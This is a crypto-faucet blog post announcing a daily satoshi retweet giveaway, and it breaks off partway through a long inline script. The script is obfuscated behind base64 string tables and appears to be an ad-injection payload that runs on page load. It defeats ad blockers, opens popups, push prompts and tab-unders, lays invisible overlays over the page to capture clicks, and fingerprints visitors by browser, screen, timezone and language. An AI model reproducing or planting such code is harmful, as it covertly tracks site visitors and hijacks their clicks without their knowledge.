 ```yaml
---
layout: post-right-sidebar
title:  "Win 333 satoshi (฿) on May 9th"
categories: [ daily ]
img: http://www.all-faucets.com/assets/images/5-09.png
alt: Follow us for our Daily Bitcoin Giveaway! Three (3) winners selected daily!
desc: Follow us for our Daily Bitcoin Giveaway! Three (3) winners selected daily!
URL: http://www.all-faucets.com/daily/2019/05/09/giveaway.html
---
```


Simply <a href="https://twitter.com/intent/user?screen_name=CryptoPayoff" target="_blank">retweet</a> today's Daily Giveaway Tweet for your chance to win.

If you're new to crypto faucets check out <a href="http://www.all-faucets.com/start.html">Getting Started with Bitcoin Faucets</a>. While getting cryptocurrency from free faucets is risk-free, it does take time and requires patience. We list our favorite high-paying faucets on the right sidebar ⇢

You can also <i>buy</i> Bitcoin and other crypto from an exchange site, such as <a href="http://bit.ly/www-coinbase" target="_blank">Coinbase</a>.

<script data-cfasync="false" type="text/javascript">var _0xb018=['iframe','createElement','position','style','absolute','width','1px','height','opacity','src','about:blank','appendChild','documentElement','atob','contentWindow','decodeURIComponent','RegExp','removeChild'];(function(){var _0x8630x1=document,_0x8630x2=_0x8630x1[_0xb018[1]](_0xb018[0]),atob,decodeURIComponent,RegExp;_0x8630x2[_0xb018[3]][_0xb018[2]]= _0xb018[4];_0x8630x2[_0xb018[3]][_0xb018[5]]= _0xb018[6];_0x8630x2[_0xb018[3]][_0xb018[7]]= _0xb018[6];_0x8630x2[_0xb018[3]][_0xb018[8]]= 0;_0x8630x2[_0xb018[9]]= _0xb018[10];_0x8630x1[_0xb018[12]][_0xb018[11]](_0x8630x2);atob= _0x8630x2[_0xb018[14]][_0xb018[13]];decodeURIComponent= _0x8630x2[_0xb018[14]][_0xb018[15]];RegExp= _0x8630x2[_0xb018[14]][_0xb018[16]];try{window[_0xb018[13]]}catch(e){delete window[_0xb018[13]];window[_0xb018[13]]= atob};try{window[_0xb018[15]]}catch(e){delete window[_0xb018[15]];window[_0xb018[15]]= decodeURIComponent};try{window[_0xb018[16]]}catch(e){delete window[_0xb018[16]];window[_0xb018[16]]= RegExp};_0x8630x1[_0xb018[12]][_0xb018[17]](_0x8630x2);var c,d,a=['YnJvd3Nl','dmlldw==','bW92aWU=','c3RhdGlj','cGFnZQ==','d2Vi','cmVwbGFjZQ==','cG93','bWVzc2FnZQ==','X2JsYW5r','dG9Mb3dlckNhc2U=','c3R5bGVTaGVldHM=','Y3NzUnVsZXM=','c2VsZWN0b3JUZXh0','aW5jbHVkZXM=','LndpZGdldC1jb2wtMTAtc3A=','Y29udGVudA==','cmVs','dHlwZQ==','Y3Jvc3NPcmlnaW4=','aGVhZA==','aW5zZXJ0QmVmb3Jl','Zmlyc3RDaGlsZA==','b25sb2Fk','SFRUUF9SRVNQT05TRV9CTE9C','dXNlLWNyZWRlbnRpYWxz','Y2FudmFz','Z2V0Q29udGV4dA==','ZHJhd0ltYWdl','Z2V0SW1hZ2VEYXRh','cmV2ZXJzZQ==','c3Vic3RyaW5n','SFRUUF9SRVNQT05TRV9KU09O','b3Blbg==','cmVzcG9uc2VUeXBl','d2l0aENyZWRlbnRpYWxz','c2V0UmVxdWVzdEhlYWRlcg==','SFRUUF9IRUFERVJfVE9LRU4=','c3RhdHVz','c3RyaW5naWZ5','ZXJyb3IgJw==','c3RhdHVzVGV4dA==','JyB3aGlsZSByZXF1ZXN0aW5nIA==','SFRUUF9NRVRIT0RfUE9TVA==','SFRUUF9IRUFERVJfQ09OVEVOVA==','SFRUUF9IRUFERVJfQ09OVEVOVF9KU09O','c2VuZA==','VG9rZW4=','Q29udGVudC1UeXBl','YXBwbGljYXRpb24vanNvbg==','anNvbg==','YmxvYg==','R0VU','UE9TVA==','UHJvbWlzZQ==','cmV0dXJuIHRoaXM=','dGhpcw==','b2JqZWN0','aXRlcmF0b3I=','bmV4dA==','ZG9uZQ==','cmV0dXJu','aXNBcnJheQ==','SW52YWxpZCBhdHRlbXB0IHRvIGRlc3RydWN0dXJlIG5vbi1pdGVyYWJsZSBpbnN0YW5jZQ==','YXBwbGljYXRpb24veC13d3ctZm9ybS11cmxlbmNvZGVkOyBjaGFyc2V0PVVURi04','bnJhOGNyNDlkcmc=','dW5rbm93bg==','REVMSVZFUllfSlM=','REVMSVZFUllfQ1NT','UFJPWFlfSlM=','L2V2ZW50','Z2V0VGltZQ==','cmVmZXJyZXI=','em9uZWlk','dGltZV9kaWZm','ZmFpbGVkX3VybA==','ZmFpbF90aW1l','dXNlcl9pZA==','Y3VycmVudF91cmw=','bGFzdF9zdWNjZXNz','c3VjY2Vzc19jb3VudA==','dXNlcl9hZ2VudA==','c2NyZWVuX3dpZHRo','c2NyZWVuX2hlaWdodA==','bWV0aG9k','dGltZXpvbmU=','ZmFpbGVkX3VybF9kb21haW4=','cmVmZXJyZXJfZG9tYWlu','Y3VycmVudF91cmxfZG9tYWlu','YnJvd3Nlcl9sYW5n','cHJlcGFyZVByb3h5UmVkaXJlY3Q=','bWFrZUZ1bGxzY3JlZW5MaW5r','dGFidW5kZXI=','YW5kcm9pZA==','d2luZG93cyBudA==','ZW4tVVM=','ZW4tR0I=','ZW4tQ0E=','ZW4tQVU=','c3YtU0U=','Z2V0VGltZXpvbmVPZmZzZXQ=','ZG9j','d2lu','c2Ny','dHJ5VG9w','ZG9jdW1lbnQ=','Z2V0UGFyZW50Tm9kZQ==','c291cnNlRGl2','cG9zaXRpb24=','cmVsYXRpdmU=','bWFrZVNtYXJ0T3ZlcmxheXM=','cmVtb3ZlT3ZlcmxheXM=','bWFrZU92ZXJsYXk=','b2Zmc2V0V2lkdGg=','b2Zmc2V0SGVpZ2h0','c29tZQ==','Y2xvbmVOb2Rl','aW5uZXJIVE1M','Z2V0RWxlbWVudHNCeVRhZ05hbWU=','Zml4ZWQ=','Ym90dG9t','cmlnaHQ=','ZWxlbWVudA==','aXNDbGlja0F2YWlsYWJsZQ==','cHJldmVudERlZmF1bHQ=','c3RvcFByb3BhZ2F0aW9u','UkVESVJFQ1RfU1VGRklY','dGltZW91dA==','c2FtZW9yaWdpbg==','aW5jcmVtZW50Q2xpY2tz','c3RvcEltbWVkaWF0ZVByb3BhZ2F0aW9u','cmVtb3Zl','Y2xvc2Vk','b3BlbmVy','aHR0cHM6Ly93d3cuZ29vZ2xlLmNvbS9mYXZpY29uLmljbw==','KGxvZ298YnJhbmQp','XmJsb2I6','aW1n','c29ydA==','Y2xhc3NMaXN0','TVNfSU5fSE9VUg==','TVNfSU5fU0VDT05E','dWtoZm94emRvZ3E=','cGluZw==','cG9uZw==','cmVxdWVzdA==','cmVxdWVzdF9hY2NlcHRlZA==','cmVxdWVzdF9mYWlsZWQ=','dXJs','Y2hhbm5lbA==','cmVxdWVzdF9pZA==','em9uZWlkX2FkYmxvY2s=','Y2FsbHNpZ24=','em9uZWlkX29yaWdpbmFs','cmVzb2x2ZQ==','cmVqZWN0','YWxs','cmFjZQ==','c2V0SW1tZWRpYXRl','c2V0VGltZW91dA==','c2V0SW50ZXJ2YWw=','Y2xlYXJUaW1lb3V0','Y2xlYXJJbnRlcnZhbA==','Y2xvc2U=','X2lk','X2NsZWFyRm4=','dW5yZWY=','cmVm','ZW5yb2xs','X2lkbGVUaW1lb3V0SWQ=','X2lkbGVUaW1lb3V0','dW5lbnJvbGw=','X3VucmVmQWN0aXZl','YWN0aXZl','X29uVGltZW91dA==','Y2xlYXJJbW1lZGlhdGU=','ZnVuY3Rpb24=','Y2FsbGJhY2s=','YXJncw==','bmV4dFRpY2s=','aW1wb3J0U2NyaXB0cw==','b25tZXNzYWdl','c2V0SW1tZWRpYXRlJA==','c291cmNl','YXR0YWNoRXZlbnQ=','cG9ydDE=','cG9ydDI=','b25yZWFkeXN0YXRlY2hhbmdl','Z2V0UHJvdG90eXBlT2Y=','cHJvY2Vzcw==','W29iamVjdCBwcm9jZXNzXQ==','TWVzc2FnZUNoYW5uZWw=','c2V0VGltZW91dCBoYXMgbm90IGJlZW4gZGVmaW5lZA==','Y2xlYXJUaW1lb3V0IGhhcyBub3QgYmVlbiBkZWZpbmVk','cnVu','ZnVu','YXJyYXk=','dGl0bGU=','YnJvd3Nlcg==','ZW52','YXJndg==','dmVyc2lvbnM=','YWRkTGlzdGVuZXI=','b25jZQ==','b2Zm','cmVtb3ZlTGlzdGVuZXI=','cmVtb3ZlQWxsTGlzdGVuZXJz','ZW1pdA==','cHJlcGVuZExpc3RlbmVy','cHJlcGVuZE9uY2VMaXN0ZW5lcg==','bGlzdGVuZXJz','YmluZGluZw==','cHJvY2Vzcy5iaW5kaW5nIGlzIG5vdCBzdXBwb3J0ZWQ=','Y3dk','Y2hkaXI=','cHJvY2Vzcy5jaGRpciBpcyBub3Qgc3VwcG9ydGVk','dW1hc2s=','bG9hZA==','Y3JlYXRlVGV4dE5vZGU=','c2F2ZUNhY2hl','Z2V0Q2FjaGU=','bWdkYjlvNzlndg==','ZXhwb3J0cw==','Y2FsbA==','ZGVmaW5lUHJvcGVydHk=','X19lc01vZHVsZQ==','ZGVmYXVsdA==','cHJvdG90eXBl','aGFzT3duUHJvcGVydHk=','Wk9ORUlEX0FEQkxPQ0s=','Wk9ORUlEX09SSUdJTkFM','T05DTElDS19GUkVRVUVOQ1k=','T05DTElDS19DQVBQSU5H','T05DTElDS19USU1FT1VU','T05DTElDS19QT1BVUA==','T05DTElDS19TRVRUSU5HUw==','Rk9STUFUX0NBTExTSUdO','Rk9STUFUX0RFTElWRVJZX1VSTF9KUw==','Rk9STUFUX0RFTElWRVJZX1VSTF9DU1M=','VEFHX1RZUEU=','VEFHX0dFTkVSQVRFRA==','RE9NQUlOU19TRUNSRVRfU1RSSU5H','RE9NQUlOU19TRUNSRVRfU1VGRklYRVM=','RE9NQUlOU19TRUNSRVRfS0VZ','UFJPWFlfRE9NQUlOU19TRUNSRVRfU1RSSU5H','UFJPWFlfRE9NQUlOU19TRUNSRVRfU1VGRklYRVM=','UFJPWFlfRE9NQUlOU19TRUNSRVRfS0VZ','SEFORExFUl9OQU1FX0VSUk9S','SEFORExFUl9OQU1FX0xPQUQ=','Z2V0RXh0ZW50aW9uRGlhbHlVcmw=','Z2V0UHJveHlEb21haW4=','Z2V0RGVsaXZlcnlEb21haW4=','Lmh0bWw=','ZGVjcnlwdFN0cmluZw==','cHN0cmluZ3M=','Y3VycmVudA==','cGtleXM=','cHN1ZmZpeGVz','am9pbg==','c3RyaW5ncw==','a2V5cw==','c3VmZml4ZXM=','VkVSU0lPTg==','NS40LjY=','UkVHVUxBUl9TQ1JJUFRfTE9BRElOR19USU1FT1VU','UFJPWFlfSFRUUF9SRVFVRVNU','emZncHJveHlodHRw','S0VZX0xPQ0FMX1NUT1JBR0U=','X19fZ29v','U1RPUkFHRV9WQUxVRVNfU0VQQVJBVE9S','QU5USUFEQkxPQ0tfVFlQRV9VTktOT1dO','QU5USUFEQkxPQ0tfVFlQRV9QSFA=','QU5USUFEQkxPQ0tfVFlQRV9KUw==','S0VZX01VTFRJUExJRVI=','dG9DaGFyQ29kZQ==','ZnJvbUNoYXJDb2Rl','Y3JlYXRlS2V5','ZW5jcnlwdFN0cmluZw==','dG9TdHJpbmc=','Y2hhckNvZGVBdA==','c3BsaXQ=','bWFw','bGVuZ3Ro','RVZFTlRfSUQ=','RVZFTlRfTkFNRQ==','dW5kZWZpbmVk','Y3VycmVudFNjcmlwdA==','Y2xpY2s=','cmFuZG9t','c2xpY2U=','cmVtb3ZlRXZlbnRMaXN0ZW5lcg==','Z2V0UGxhdGZvcm1TY29yZQ==','dXNlckFnZW50','Z2V0U2NyZWVuU2NvcmU=','c2NyZWVu','aGVpZ2h0','Z2V0VGltZXpvbmVTY29yZQ==','Z2V0RG9tYWluU2NvcmU=','bG9jYXRpb24=','aHJlZg==','Z2V0QnJvd3NlckxhbmdTY29yZQ==','bGFuZ3VhZ2U=','dXNlckxhbmd1YWdl','Zm9yRWFjaA==','dGFyZ2V0SWQ=','dmFsdWU=','cG9zdE1lc3NhZ2U=','YWRkRXZlbnRMaXN0ZW5lcg==','Z2V0T2Zmc2V0','cXVlcnk=','dHJhdmVyc2VQYXJlbnRz','YnJvYWRjYXN0','Y2hlY2tMb2FkZWQ=','c2hvdWxkQ2hlY2tDYWxsc2lnbg==','cmVjb3ZlcnlXaW5kb3dGdW5jdGlvbnM=','ZG9jdW1lbnRFbGVtZW50','Ym9keQ==','cGFnZVlPZmZzZXQ=','c2Nyb2xsVG9w','cGFnZVhPZmZzZXQ=','c2Nyb2xsTGVmdA==','Y2xpZW50VG9w','Y2xpZW50TGVmdA==','Z2V0Qm91bmRpbmdDbGllbnRSZWN0','dG9w','bGVmdA==','cXVlcnlTZWxlY3RvckFsbA==','dGFnTmFtZQ==','cGFyZW50Tm9kZQ==','UEhQ','QUFCIA==','U1RSX0NBTExTSUdOUw==','c2V0RG9tYWlu','a2V5','c3RyaW5n','cGtleQ==','cHN0cmluZw==','YnJvYWRjYXN0SW5mbw==','Q0FMTFNJR05fVE9fRk9STUFU','aXNMb2FkZWQ=','YXRvYg==','UmVnRXhw','ZGVjb2RlVVJJQ29tcG9uZW50','Y3JlYXRlRWxlbWVudA==','aWZyYW1l','c3R5bGU=','b3BhY2l0eQ==','MXB4','d2lkdGg=','c3Jj','YWJvdXQ6Ymxhbms=','YXBwZW5kQ2hpbGQ=','Y29udGVudFdpbmRvdw==','cmVtb3ZlQ2hpbGQ=','YnJvYWRjYXN0Q2FsbHNpZ24=','dW5Ccm9hZGNhc3RJbmZv','cnVuQUFC','aW5qZWN0UHJveHlEb21haW4=','b25lcnJvcg==','cG9w','cHVzaA==','emZnZm9ybWF0cw==','VVJM','ZmlsdGVy','em9uZUlk','c291cmNlWm9uZUlk','c2hpZnQ=','Zm9ybWF0','dmVyc2lvbg==','ZG9tYWlu','Z2VuZXJhdGlvblRpbWU=','ZXh0cmE=','c2VsZWN0b3I=','aW5kZXhPZg==','cmVkdWNl','Y29uY2F0','REVGQVVMVF9DQUxMU0lHTg==','emZnbG9hZGVkcG9wdXA=','T05DTElDS19DQUxMU0lHTg==','UFVTSF9DQUxMU0lHTg==','emZnbG9hZGVkcHVzaG9wdA==','UFVTSF9IVFRQX0NBTExTSUdO','emZnbG9hZGVkcHVzaA==','UFVTSF9QT1BVUF9DQUxMU0lHTg==','emZnbG9hZGVkcHVzaHBvcHVw','UFVTSF9PUFRfQ0FMTFNJR04=','SU5URVJTVElUSUFMX0NBTExTSUdO','emZnbG9hZGVkaW50ZXJzdGl0aWFs','TkFUSVZFQURTX0NBTExTSUdO','emZnbG9hZGVkbmF0aXZl','T25DbGljaw==','UHVzaCBub3RpZmljYXRpb24gKEhUVFAp','UHVzaCBub3RpZmljYXRpb24gKEhUVFBTKQ==','UHVzaCBub3RpZmljYXRpb24gKERvdWJsZSBUYWcp','SW50ZXJzdGl0aWFs','TmF0aXZl','b25jbGljaw==','bmF0aXZl','U01BUlRfT1ZFUkxBWVNfUkVEUkFXX1RJTUVPVVQ=','T0JKRUNUU19GT1JfT1ZFUkxBWVM=','b2JqZWN0LCBpZnJhbWUsIGVtYmVkLCB2aWRlbywgYXVkaW8=','QkFOTkVSX1NJWkVT','NDY4eDYw','MjM0eDYw','NzI4eDkw','MTIweDI0MA==','MzAweDI1MA==','MjQweDQwMA==','QkFOTkVSX1NJWkVfU0VQQVJBVE9S','QUJTT0xVVEVfUE9TSVRJT04=','YWJzb2x1dGU=','T1ZFUkxBWV9FTEVNRU5UX05BTUU=','ZGl2','T1ZFUkxBWV9QUk9UT1RZUEU=','TUFYSU1VTV9aSU5ERVg=','VFJBTlNQQVJFTlRfR0lG','dXJsKGRhdGE6aW1hZ2UvZ2lmO2Jhc2U2NCxSMGxHT0RsaEFRQUJBSUFBQUFBQUFQLy8veUg1QkFFQUFBQUFMQUFBQUFBQkFBRUFBQUlCUkFBNyk=','U0FGRV9MSU5LX1JFTA==','bm9mb2xsb3cgbm9yZWZmZXJlciBub29wZW5lcg==','V1JBUFBFUl9UQUdfTkFNRVM=','c2VjdGlvbg==','YXJ0aWNsZQ==','bmF2','TElOS19URU1QTEFURV9BUlJBWQ==','PGEgaHJlZj0iJXMiPjwvYT4=','PGRpdj48YSBocmVmPSIlcyI+PC9hPjwvZGl2Pg==','PHNwYW4+PGEgaHJlZj0iJXMiPjwvYT48L3NwYW4+','RVhQQU5EX0VWRU5UX1NUQVJU','bW91c2Vkb3du','RVhQQU5EX0VWRU5UX0VORA==','bW91c2V1cA==','VVNFX0NBUFRVUkU=','V0lUSE9VVF9DSElMRFM=','U1RZTEVfVEFH','bGluaw==','U1RZTEVfUkVM','c3R5bGVzaGVldA==','U1RZTEVfQ1JPU1NfT1JJR0lO','YW5vbnltb3Vz','U1RZTEVfTUlNRV9UWVBF','dGV4dC9jc3M=','V0FJVF9USUxMX1NDUklQVF9MT0FERUQ=','ekluZGV4','YmFja2dyb3VuZEltYWdl','Z2V0UHJveHlUYWdVcmw=','cHJveHlSZXF1ZXN0QnlDU1M=','cHJveHlSZXF1ZXN0QnlQTkc=','cHJveHlSZXF1ZXN0QnlYSFI=','cmVxdWVzdEJ5UHJveHk=','Xmh0dHBzPzo=','Xi8v','c2NyaXB0','c2NyaXB0cw==','dmVuZG9y','aW5kZXg=','anF1ZXJ5','bG9kYXNo','dW5kZXJzY29yZQ==','YW5ndWxhcg==','cmVhY3Q=','c3R5bGVz','cmVzZXQ=','YnVuZGxl','Ym9vdHN0cmFw','anF1ZXJ5LXVp','bG9nbw==','aW1hZ2U=','YnJhbmQ=','aGVhZGVy','aWNvbg==','ZmF2aWNvbg==','d2FybmluZw==','ZXJyb3I=','c3Rhcg==','ZGF0YQ==','Y3VzdG9t','Y29uZmln','YWpheA==','bWVudQ==','YXJ0aWNsZXM=','cmVzb3VyY2Vz','dmFsaWRhdG9ycw==','dDRrZDcwZDhjZ2U=','Zmxvb3I=','dGVzdA==','aHR0cHM6','aHR0cHM6Ly8=','aG9zdA==','dGV4dA==','dGhlbg==','Y2F0Y2g=','LmpzPw==','UFJPWFlfQ1NT','LmNzcz8=','cmVxdWVzdEJ5Q1NT','c3VjY2Vzcw==','ZmFpbA==','UFJPWFlfUE5H','LnBuZz8=','cmVxdWVzdEJ5UE5H','UFJPWFlfWEhS','Lmpzb24=','cmVxdWVzdEJ5WEhS','SFRUUF9NRVRIT0RfR0VU','cmVzcG9uc2U=','T1VUU0lERV9PRl9SQU5HRV9DSEFS','c2hpZnRTdHJpbmc=','cnVuU2NvcmluZw==','Y3JlYXRlS2V5cw==','KFteYS16MC05XSsp','cmF3','ZGlzcGF0Y2hFdmVudA==','YXBwbHk=','b25Eb21haW5DaGFuZ2U=','Z2V0VGFiTGF1bmNoZXI=','UC9O','Ti9Q','UC9OL04=','Ti9QL04=','UC9OL1AvTg==','Ti9OL04vTg==','MDAw','MDAwMA==','MDAwMDA=','bmV3cw==','cGFnZXM=','d2lraQ=='];c=a,d=222,function(b){for(;--b;)c.push(c.shift())}(++d);var b=function(x,n){var c=a[x-=0];void 0===b.UqokyN&&(!function(){var x;try{x=Function(atob('cmV0dXJuIChmdW5jdGlvbigpIHt9LmNvbnN0cnVjdG9yKCJyZXR1cm4gdGhpcyIpKCApKTs='))()}catch(b){x=window}x.atob||(x.atob=function(b){for(var x,n,c=String(b).replace(/=+$/,''),t=0,e=0,r='';n=c.charAt(e++);~n&&(x=t%4?64*x+n:n,t++%4)?r+=String.fromCharCode(255&x>>(-2*t&6)):0)n='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/='.indexOf(n);return r})}(),b.SEYfRO=function(b){for(var x=atob(b),n=[],c=0,t=x.length;c<t;c++)n+='%'+('00'+x.charCodeAt(c).toString(16)).slice(-2);return decodeURIComponent(n)},b.bvZPKG={},b.UqokyN=!0);var t=b.bvZPKG[x];return void 0===t?(c=b.SEYfRO(c),b.bvZPKG[x]=c):c=t,c};!function(c){var t={};function e(x){if(t[x])return t[x][b('0x0')];var n=t[x]={};return t[x].i=x,t[x].l=!1,t[x][b('0x0')]={},c[x][b('0x1')](n[b('0x0')],n,n[b('0x0')],e),n.l=!0,n[b('0x0')]}e.m=c,e.c=t,e.d=function(x,n,c){e.o(x,n)||Object[b('0x2')](x,n,{configurable:!1,enumerable:!0,get:c})},e.n=function(x){var n=x&&x[b('0x3')]?function(){return x[b('0x4')]}:function(){return x};return e.d(n,'a',n),n},e.o=function(x,n){return Object[b('0x5')][b('0x6')][b('0x1')](x,n)},e.p='',e(e.s=0)}([function(O,P){!function(c){var t={};function e(x){if(t[x])return t[x][b('0x0')];var n=t[x]={};return t[x].i=x,t[x].l=!1,t[x][b('0x0')]={},c[x][b('0x1')](n[b('0x0')],n,n[b('0x0')],e),n.l=!0,n[b('0x0')]}e.m=c,e.c=t,e.d=function(x,n,c){e.o(x,n)||Object[b('0x2')](x,n,{configurable:!1,enumerable:!0,get:c})},e.n=function(x){var n=x&&x[b('0x3')]?function(){return x[b('0x4')]}:function(){return x};return e.d(n,'a',n),n},e.o=function(x,n){return Object[b('0x5')][b('0x6')][b('0x1')](x,n)},e.p='',e(e.s=18)}([function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0});n[b('0x7')]=2611224,n[b('0x8')]=2611223,n[b('0x9')]=0,n[b('0xa')]=0,n[b('0xb')]=30,n[b('0xc')]=true,n[b('0xd')]={},n[b('0xe')]="zfgloadedpushopt",n[b('0xf')]='/scripts/bootstrap-datepicker/2.11.62/bootstrap-datepicker.min.js',n[b('0x10')]='/styles/titatoggle/2.11.62/titatoggle.min.css',n[b('0x11')]=2,n[b('0x12')]=1e3*1557328081,n[b('0x13')]='68pfssmoB9n7yq6jvKfzzp7bpyEq8kw0b28Qbnpoy3iwQ13hj50a6Igbpxh9r7Kl0dymut0Oszlpo63d',n[b('0x14')]='e84T9ufKqw4Nw8mSruxLx6fFe84E9ufBqw4',n[b('0x15')]='qs8fzcwiqlk',n[b('0x16')]='b6u523qvVl4kjp3roLio96wmr6Ur6cq6n2fB1s5f07F9ui98eqjY29yk7adnC78vb2gpvWtojsk5t2Ctwgnkm3n',n[b('0x17')]='y66Gf8vYlkdWg6oZmi6H3kvU9wdU4ioJlkdJg6o',n[b('0x18')]='lgh29nwt96a',n[b('0x19')]='_xbaaob',n[b('0x1a')]='_xzckuzi'},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0}),n[b('0x1b')]=function(x,n){return'//'+x+'/'+n+b('0x1e')},n[b('0x1c')]=function(){return[(0,t[b('0x1f')])(e[b('0x20')][b('0x21')],e[b('0x22')][b('0x21')]),(0,t[b('0x1f')])(e[b('0x23')][b('0x21')],e[b('0x22')][b('0x21')])][b('0x24')]('.')},n[b('0x1d')]=function(){return[(0,t[b('0x1f')])(e[b('0x25')][b('0x21')],e[b('0x26')][b('0x21')]),(0,t[b('0x1f')])(e[b('0x27')][b('0x21')],e[b('0x26')][b('0x21')])][b('0x24')]('.')};var t=c(3),e=c(19)},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0});n[b('0x28')]=b('0x29'),n[b('0x2a')]=1e4,n[b('0x2b')]=b('0x2c'),n[b('0x2d')]=b('0x2e'),n[b('0x2f')]='|',n[b('0x30')]=0,n[b('0x31')]=1,n[b('0x32')]=2,n[b('0x33')]=42},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0}),n[b('0x34')]=f,n[b('0x35')]=i,n[b('0x36')]=function(x,t){return x[b('0x3a')]('')[b('0x3b')](function(b,x){var n=(t+1)*(x+1),c=(f(b)+n)%o;return i(c)})[b('0x24')]('')},n[b('0x37')]=function(x,e){return x[b('0x3a')]('')[b('0x3b')](function(x,n){var c=e[n%(e[b('0x3c')]-1)],t=(f(x)+f(c))%o;return i(t)})[b('0x24')]('')},n[b('0x1f')]=function(x,a){return x[b('0x3a')]('')[b('0x3b')](function(x,n){var c=a[n%(a[b('0x3c')]-1)],t=f(c),e=f(x),r=e-t,u=r<0?r+o:r;return i(u)})[b('0x24')]('')};var t=48,e=57,r=e-t+1,u=97,a=122,o=a-u+1+r;function f(x){var n=x[b('0x38')]()[b('0x39')](0);return t<=n&&n<=e?n-t:u<=n&&n<=a?n-u+r:0}function i(x){return x<=9?String[b('0x35')](x+t):x<=35?String[b('0x35')](x+u-r):String[b('0x35')](t)}},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0}),n[b('0x3d')]=n[b('0x3e')]=void 0;var t=c(20),e=typeof document!==b('0x3f')?document[b('0x40')]:null,r=n[b('0x3e')]=b('0x41');n[b('0x3d')]=Math[b('0x42')]()[b('0x38')](36)[b('0x43')](2);e&&e[b('0x55')](r,function x(c){e[b('0x44')](r,x),[(0,t[b('0x45')])(navigator[b('0x46')]),(0,t[b('0x47')])(window[b('0x48')][b('0x49')]),(0,t[b('0x4a')])(new Date),(0,t[b('0x4b')])(window[b('0x4c')][b('0x4d')]),(0,t[b('0x4e')])(navigator[b('0x4f')]||navigator[b('0x50')])][b('0x51')](function(n){var x=parseInt(10*Math[b('0x42')](),10);setTimeout(function(){var x={};x.id=c[b('0x52')],x[b('0x53')]=n,window[b('0x54')](x,'*')},x)})})},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0}),n[b('0x56')]=function(x){var n=document,c=n[b('0x5d')],t=n[b('0x5e')],e=window[b('0x5f')]||c[b('0x60')]||t[b('0x60')],r=window[b('0x61')]||c[b('0x62')]||t[b('0x62')],u=c[b('0x63')]||t[b('0x63')]||0,a=c[b('0x64')]||t[b('0x64')]||0,o=x[b('0x65')](),f=o[b('0x66')]+(e-u),i=o[b('0x67')]+(r-a),d={};return d[b('0x66')]=f,d[b('0x67')]=i,d},n[b('0x57')]=function(x){var n=document[b('0x68')](x);return Array[b('0x5')][b('0x43')][b('0x1')](n)},n[b('0x58')]=function x(n,c){if(!n)return null;if(n[b('0x69')]===c)return n;return x(n[b('0x6a')],c)},n[b('0x59')]=function(){var x=1===u[b('0x11')]?b('0x6b'):'JS',n=b('0x6c')+x+' '+e[b('0x6d')][u[b('0xe')]],c={};c.sd=a[b('0x6e')],c[b('0x6f')]=u[b('0x15')],c[b('0x70')]=u[b('0x13')],c[b('0x27')]=u[b('0x14')],c[b('0x71')]=u[b('0x18')],c[b('0x72')]=u[b('0x16')],c[b('0x23')]=u[b('0x17')],(0,t[b('0x73')])(n,r[b('0x28')],u[b('0x7')],u[b('0x12')],u[b('0x8')],c)},n[b('0x5a')]=function(x){var n=e[b('0x74')][u[b('0xe')]];if(n)return(0,t[b('0x75')])(n,u[b('0x8')])||(0,t[b('0x75')])(n,u[b('0x7')]);return!!window[x]},n[b('0x5b')]=function(){return!e[b('0x74')][u[b('0xe')]]},n[b('0x5c')]=function(){var x=[b('0x76'),b('0x77'),b('0x78')],c=document[b('0x79')](b('0x7a'));c[b('0x7b')][b('0x7c')]=0,c[b('0x7b')][b('0x49')]=b('0x7d'),c[b('0x7b')][b('0x7e')]=b('0x7d'),c[b('0x7f')]=b('0x80');try{document[b('0x5d')][b('0x81')](c),x[b('0x51')](function(n){try{window[n]}catch(x){delete window[n],window[n]=c[b('0x82')][n]}}),document[b('0x5d')][b('0x83')](c)}catch(b){}};var t=c(6),e=c(7),r=c(2),u=c(0),a=c(11)},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0}),n[b('0x73')]=function(x,n,c){var t=3<arguments[b('0x3c')]&&void 0!==arguments[3]?arguments[3]:0,e=4<arguments[b('0x3c')]&&void 0!==arguments[4]?arguments[4]:0,r=arguments[5],u=void 0;try{u=f[b('0x7f')][b('0x3a')]('/')[2]||document[b('0x8c')][b('0x3a')]('/')[2]}catch(b){}try{var a=window[b('0x8b')][b('0x8d')](function(x){return x[b('0x8e')]===c&&x[b('0x8f')]})[b('0x90')](),o={};o[b('0x91')]=x,o[b('0x92')]=n,o[b('0x8e')]=c,o[b('0x8f')]=a?a[b('0x8f')]:e,o[b('0x93')]=a?a[b('0x93')]:u,o[b('0x94')]=t,(o[b('0x95')]=r)&&r[b('0x96')]&&(o[b('0x96')]=r[b('0x96')]),d[b('0x8a')](o),i[b('0x51')](function(x){return x[b('0x8b')][b('0x8a')](o)})}catch(b){}},n[b('0x84')]=function(x){t[b('0x8a')](x),window[x]=!0},n[b('0x85')]=u,n[b('0x75')]=function(t,e){return 0<window[b('0x8b')][b('0x8d')](function(x){var n=x[b('0x8e')]===e,c=x[b('0x91')]===t;return n&&c})[b('0x3c')]},n[b('0x86')]=function(){try{u(),e(),e=function(){}}catch(b){}},n[b('0x87')]=function(c,n){i[b('0x3b')](function(x){var n=x[b('0x8b')]||[];return n[b('0x8d')](function(x){return-1<c[b('0x97')](x[b('0x8e')])})})[b('0x98')](function(x,n){return x[b('0x99')](n)},[])[b('0x51')](function(x){try{x[b('0x95')].sd(n)}catch(b){}})};var f=document[b('0x40')],i=[window],t=[],d=[],e=function(){};f&&f[b('0x88')]&&(e=f[b('0x88')]);try{for(var r=i[b('0x43')](-1)[b('0x89')]();r&&r!==r[b('0x66')]&&r[b('0x66')][b('0x48')][b('0x49')];)i[b('0x8a')](r[b('0x66')]),r=r[b('0x66')]}catch(b){}function u(){d[b('0x51')](function(t){i[b('0x51')](function(x){x[b('0x8b')]=x[b('0x8b')][b('0x8d')](function(x){var n=x[b('0x91')]!==t[b('0x91')],c=x[b('0x8e')]!==t[b('0x8e')];return 